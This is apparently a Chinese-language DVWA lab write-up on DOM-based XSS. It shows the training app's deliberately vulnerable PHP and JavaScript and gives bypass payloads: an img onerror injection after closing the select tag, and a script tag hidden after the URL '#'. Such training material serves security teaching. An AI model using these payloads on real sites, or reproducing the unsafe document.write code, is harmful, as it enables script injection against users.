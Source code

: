     过滤了script标签，可以用img标签+onerror事件绕过
    传入的数据在select下拉选框中，需要先将select和option标签闭合
    payload：?default=English</opnion></select><img src=1 onerror=alert(/XSS/)>

- high

```php
<?php
// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {

    # White list the allowable languages
    switch ($_GET['default']) {
        case "French":
        case "English":
        case "German":
        case "Spanish":
            # ok
            break;
        default:
            header ("location: ?default=English");
            exit;
    }
}
?>
```

```js
<select name="default">
  <script>
    if (document.location.href.indexOf("default=") >= 0) {
      var lang = document.location.href.substring(document.location.href.indexOf("default=")+8);
      document.write("<option value='" + lang + "'>" + decodeURI(lang) + "</option>");
      document.write("<option value='' disabled='disabled'>----</option>");
    }
       
      document.write("<option value='English'>English</option>");
      document.write("<option value='French'>French</option>");
      document.write("<option value='Spanish'>Spanish</option>");
      document.write("<option value='German'>German</option>");
  </script>
</select>
```

    后端代码用switch限制用户传入的参数必须是下拉菜单中的值，url中#后面的数据不会被传到后端
    payload：?default=English#<script>alert(\xss\)</script>

- impossible

```php
<?php

# Don't need to do anything, protection handled on the client side

?> 
```
